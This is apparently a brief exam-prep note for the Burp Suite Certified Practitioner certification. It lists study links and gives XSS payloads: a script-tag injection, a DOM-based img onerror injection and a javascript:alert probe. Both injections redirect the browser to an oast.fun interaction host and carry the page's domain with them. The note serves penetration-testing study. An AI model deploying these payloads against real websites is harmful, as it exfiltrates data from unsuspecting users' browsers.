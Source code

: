 ___
[https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study)

[https://github.com/DingyShark/BurpSuiteCertifiedPractitioner](https://github.com/DingyShark/BurpSuiteCertifiedPractitioner)

[https://deephacking.tech/burp-suite-certified-practicioner-review-bscp/](https://deephacking.tech/burp-suite-certified-practicioner-review-bscp/)


```html
<script>location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain;</script>
```

### DOM Based XSS


```html
#"><img src="x" onerror="location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain;">
```


```js
javascript:alert(1)
```


